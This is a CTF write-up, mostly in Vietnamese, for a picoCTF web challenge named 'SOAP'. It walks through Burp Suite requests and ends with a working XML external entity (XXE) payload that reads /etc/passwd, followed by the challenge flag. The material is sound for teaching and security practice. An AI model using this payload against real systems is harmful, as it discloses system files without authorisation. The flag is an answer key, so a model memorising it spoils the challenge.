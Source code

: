 # Write-up : SOAP 
---
### Description :
> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
### Hint :
> XML external entity Injection
--- 
### Solution :
- Sau khi đọc hint và đề bài thì chúng ta biết lỗi trong bài này là XML Injection
- Dùng burp suite kiểm tra request gửi đi thì ta thấy mỗi khi bấm details của mỗi hình thì sẽ trả về 1 tham số id khác nhau

Dùng burp suite để chặn 1 request và chuyển request đó sang repeater để cùng thử các payload:
> khi thay đổi tham số id thì có sự thay đổi của response gửi về, khi thay đổi về 0 thì trả về :
```xml
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 27 Jun 2025 14:48:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Invalid ID: 0
```
Thử với `` &lt; `` thì trả về : `` < `` 
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<data><ID>&lt;</ID></data>
```
> Từ đó cho ta thấy `` xml parser `` có chạy vì thế ta có thể tạo và sửa đổi nội dung xml

Payload tấn công :
```xml
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
```
Và gọi `` &abc `` ở chỗ `` xml parser `` hoạt động 
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data><ID>&abc;</ID></data>
```
### Flag : `` picoCTF{XML_3xtern@l_3nt1t1ty_55662c16} `` 
